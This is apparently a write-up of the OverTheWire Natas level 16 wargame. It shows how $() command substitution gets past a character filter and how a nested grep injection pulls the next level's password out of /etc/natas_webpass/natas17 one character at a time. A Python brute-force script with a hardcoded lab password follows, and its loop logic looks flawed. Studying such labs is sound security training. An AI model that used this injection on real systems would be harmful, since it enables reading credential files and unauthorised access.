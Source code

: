 Right, this is similar to level 9. This time, however, there is character filtering in place, so we can't use any of these: <code>;|&`\'"</code>. So there is no way to inject or chain commands..at the first glance! There is one useful character that is not filtered! The dollar sign! This is used in the bash shell in the same way as the backticks: for [command substitution](http://bash.cyberciti.biz/guide/Command_substitution) 

Basically, you can use it to run a command and store its output in a variable or display it with the *echo* command. It looks like this:

``` plain
root@kali:~# echo $(whoami)
root
```

So we want to bruteforce the password in the way we did before. Whatever we run with the $() command will be placed inside the $key variable, which is passed to grep against the dictionary file. If there is a match, the words containing it are displayed, else nothing is displayed. This is the behavior we will exploit for True and False values with our injection

Let's test it first. In the form field, I injected <code>$(echo matrix)</code>, and that return all the matches for that word:

``` plain
Output:

matrix
matrix's
matrixes
```

The code executed by the server ends up being <code>grep -i matrix dictionary.txt</code>. Now, if I inject a non-existent word, there is no output. So to check for the password, we will use a nested grep inside the main grep, that will look like this: <code>$(grep -E ^a.* /etc/natas_webpass/natas17)matrix</code>. This checks if the password starts with a, and we will then iterate over all characters. Let's imagine what happens if a is the first character of the password:

* the nested grep that we injected returns a, which is appended to the word we passed after, matrix in this case, so the server-side grep looks for the word amatrix in the dictionary file, and since that doesn't exist, nothing is returned. So we know that if nothing is returned, we had a match

* there is no match for the nested grep, so the matrix word remains unchanged, and the server returns all the matrix words, which means there was no match for the character we tried in the password

To automate the injection process, I wrote a Python script again:

``` python
#!/usr/bin/env python

import requests


testchars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
index = 0
passwd = ""

while index != 32:
    for char in testchars:
            passwd += char
            payload = {'needle': "$(grep -E ^" + passwd + ".* /etc/natas_webpass/natas17)matrix", 'submit': 'Search'}      
            guess = requests.post('http://natas16.natas.labs.overthewire.org/?needle=',                             
                                 auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'),
                                 params = payload)                                                        
            response = guess.text
            print "Trying: ", passwd
            if "matrix" not in response:
                print "Password: ", passwd
```